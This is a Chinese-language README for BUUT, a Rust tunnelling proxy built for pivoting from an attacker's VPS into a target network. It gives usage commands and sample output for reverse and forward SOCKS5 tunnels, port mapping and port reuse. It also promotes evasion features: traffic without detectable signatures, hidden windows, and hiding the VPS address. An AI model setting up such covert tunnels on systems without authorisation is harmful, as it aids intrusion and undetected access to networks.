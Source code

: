 # BUUT 

https://github.com/YDHCUI/buut


## 介绍 
一款使用rust开发的高性能正反向隧道代理工具，基于yamux多路复用技术。


## 工作原理
```rust
+------+      +--------------+      +-----+      +-----------+      +------------+      +----------+      +------+
|Hacker| <--> | Socks5 stream| <--> | VPS | <--> |Yamux frame| <--> |Noise stream| <--> |TCP stream| <--> |Target|
+------+      +--------------+      +-----+      +-----------+      +------------+      +----------+      +------+
```

## 参数介绍 
```rust
    opts.optopt("k", "key",             "", "加密密钥");
    opts.optopt("l", "listen_addr",     "", "监听地址");
    opts.optopt("s", "remote_addr",     "", "远程地址");
    opts.optopt("f", "forward_addr",    "", "转发地址,只支持正向");
    opts.optopt("p", "proxy_port",      "", "代理端口,默认10086 或者端口映射模式,本地端口:目标端口,如80:81");
    opts.optopt("m", "transport",       "", "协议类型,默认TCP,支持<TCP|KCP>");
    opts.optopt("c", "config",          "", "配置文件");
    opts.optopt("n", "name",            "", "客户端id");
    opts.optopt("", "channel",          "", "通道数量,默认1");
    opts.optopt("", "headers",          "", "连接配置,连接服务所需的一些其它配置如cookie之类的");
    opts.optopt("", "sockspass",        "", "代理密码,默认buut/buut");
    opts.optopt("", "noiseparams",      "", "加密方式,noise默认Noise_KK_25519_ChaChaPoly_BLAKE2s");
    opts.optopt("", "srcip",            "", "来源IP,端口复用时使用");
    opts.optflagopt("F", "forward",     "", "是否正向模式");
    opts.optflagopt("S", "service",     "", "是否服务模式");
    opts.optflagopt("X", "soreuse",     "", "是否端口复用");
    opts.optflagopt("O", "origins",     "", "是否流量加密");
    opts.optflagopt("Z", "compres",     "", "是否流量压缩"); 
    opts.optflagopt("H", "hidecmd",     "", "是否隐藏窗口,仅windows");
```

## 特点：

速度快，使用多路复用技术 rust开发，速度、稳定性和安全性都有保证。

体积小，编译打包后只有不到几百k, 相比golang写的程序动辄10多M还是很有优势的。

无特征，程序使用Noise定制加密，可使用动态密钥保证无任何特征。

单文件，客户端和服务端使用同样的单文件、多模式自由组合切换。

多协议，目前已支持tcp、kcp，后续把icmp、dns协议支持加进去。



## 使用方法 

### 反向隧道

默认使用tcp连接反向隧道
```bash
    vps执行：          ./buut -l 443 
    target执行：       ./buut -s vps:443
    hacker连接socks5   vps:10086 


    vps:
    [root@localhost]# ./buut -l 443
    Reverse Server Listen [tcp://0.0.0.0:443]
    Client Handshake From 127.0.0.1:29505
    Agent ID [rmSyYaLX] Proxy Listen [0.0.0.0:10086]

    target:
    [root@localhost]# ./buut -s 127.0.0.1:443
    Reverse Agent ID [rmSyYaLX] Channel [1] Connect Suss

```

使用-S 参数启用服务模式，会同时监听tcp和kcp端口
```bash
    vps执行：          ./buut -S -l 443 
    target执行：       ./buut -s vps:443
    hacker连接socks5   vps:10086 
```


### 正向隧道

使用-F 参数连接tcp正向隧道
```bash
    target执行：       ./buut -F -l 443 
    vps执行：          ./buut -F -s target:443 
    hacker连接socks5   vps:10086 

    target:
    [root@localhost]# ./buut -F -l 443
    Forward Agent ID [3Yj2LLAg] Listen On [tcp://0.0.0.0:443]

    vps:
    [root@localhost]# ./buut -F -s 127.0.0.1:443
    Forward Server [tcp://127.0.0.1:443] Connect Suss
    Agent ID [3Yj2LLAg] Proxy Listen [0.0.0.0:10086]
```

如果服务需要登录才能访问 则使用headers参数设置cookie等请求头。
```bash
    target执行：       ./buut -F -l 1234
    vps执行：          ./buut -F -s https://target:1234/xx --headers Cookie:Session=xxxxxx;
    hacker连接socks5   vps:10086 
```


### 自建代理

```bash
    vps执行：          ./buut -F -S -l 10086
    user连接socks5     vps:10086 

    vps:
    [root@localhost]# ./buut -S -F -l 10086
    Socks5 Server ID [FPamyVyY] Listen On [tcp://0.0.0.0:10086]

```

### 端口映射

```bash
    vps执行：          ./buut -l 443
    target执行         ./buut -s vps:443 -p 81:80  

    vps:
    [root@localhost]# ./buut -l 443
    Reverse Server Listen [tcp://0.0.0.0:443]
    Agent ID [rmSyYaLX] Port Mapping On [0.0.0.0:81 <-> 192.168.1.21:80]

    target:
    [root@localhost]# ./buut -s 127.0.0.1:443 -p 81:80 
    Reverse Agent ID [rmSyYaLX] Channel [1] Connect Suss

```


### 端口复用

1、假设现在有一个web服务运行在8080端口，正常情况下直接监听8080是会报如下错误
    
```bash 
    buut.exe -F -l 8080
    通常每个套接字地址(协议/网络地址/端口)只允许使用一次。 (os error 10048)
```
2、现在使用 -X 参数设置SO_REUSEADDR则可以成功监听  
```bash 
    buut.exe -X -F -l 8080
    Agent Forward ID [SCrLfzxa] Listen On [tcp://0.0.0.0:8080]

```
3、使用SO_REUSEADDR能成功的前提是原服务也启用了SO_REUSEADDR。如果原服务没有启用SO_REUSEADDR则不能成功。这时候可以使用 --srcip参数设置源IP 通过转发来实现端口复用。
```bash 
    [root@localhost buut]# ./buut -X -F -l 32001
    Address already in use (os error 98)

    [root@localhost buut]# ./buut -X -F -l 32001 --srcip 192.168.2.122
    Rule src:192.168.2.122 port:32001 redirect:32002 applied Succ!
    Agent Forward ID [EJ1TROJd] Listen On [tcp://0.0.0.0:32002]
    Rule src:192.168.2.122 port:32001 redirect:32002 Delete Succ!

```
4、客户端正常连接web端口就行
```bash 
    [root@localhost buut]# ./buut -F -s 123.151.152.153:32001
    GET / HTTP/1.1
    Upgrade: websocket
    Origin: http://123.151.152.153:32001/
    Sec-WebSocket-Version: 13
    Connection: Upgrade
    Sec-WebSocket-Key: ogq+DC9z2RVSsf86PpMizw==
    Host: 123.151.152.153:32001


    HTTP/1.1 101 Switching Protocols
    Sec-Websocket-Accept: o99zKAbgLJAkj09CtFiz7MMFpVU=
    Upgrade: websocket
    Connection: upgrade


    Server forward [tcp://123.151.152.153:32001] Connect Suss
    Client [123.151.152.153:32001]-[172.16.16.12] Join [D212ts4C]
    Agent ID [D212ts4C] Proxy Listen On [socks5://buut:buut@0.0.0.0:10086]
```

### Tips

1、设置BUUT变量隐藏vps。 如： 原本的 ./buut -s vps:1234 可改成 export BUUT=vps:1234 && ./buut -s 1

2、buut默认启用密码校验，默认用户名密码buut:buut 。

3、如果需要修改sockspass则需要为每个agent端单独设置，如 ./buut -s 127.0.0.1:443 --sockspass 123456

4、 使用带log的版本进行调试。 ./buut -l 1234 --log info 

5、 目前只支持对tcp做端口复用


## 交流 

加V拉你进群

![a8e5625b211ad3b3c435e9403ebae9f](https://github.com/YDHCUI/buut/assets/46884495/6c667bb1-7eae-464f-afbd-3f0d67cbcbcb)


